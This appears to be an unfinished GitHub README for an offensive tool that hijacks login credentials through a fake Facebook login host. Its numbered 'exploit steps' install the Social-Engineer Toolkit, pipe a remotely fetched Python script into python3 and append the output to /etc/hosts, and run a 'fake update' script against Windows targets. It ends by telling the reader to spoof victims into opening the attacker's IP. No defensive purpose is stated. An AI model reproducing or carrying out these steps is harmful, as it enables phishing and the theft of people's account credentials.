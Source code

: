 # WARNING: This is a development project and is not READY for USING ;)
- BR
------------------------------------------------------------------------------------------
# SSTC-HTTPS-hijack-login-credentials Usage
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-login-credentials/blob/master/logo/http.png)

# Exploit steps:
1. - Installing requirements


2. - Preparing packages
For other Linux distro attackers
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
// For kali 
```bash 
setoolkit
```

3. - Creating hosts exploit facebook.login.com
- For Linux
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-login-credentials/master/hosts/modules/pyexploitcreate/pyexploitcreateIP_host_fake.py | python3 >> /etc/hosts
```
- continue..
-----------------------------------------------------------------------------------------
# For Windows

1. - Preparing for PWN OS fake update
```
git clone https://github.com/nu11secur1ty/SSTC-HTTPS-login-credentials.git 
cd SSTC-HTTPS-login-credentials/sh1mazu_https_fake
bash sh1m@zu.sh
```
2. -
- Spoof victim to open your IP ;)
- exploit... to be continued... 
```
```


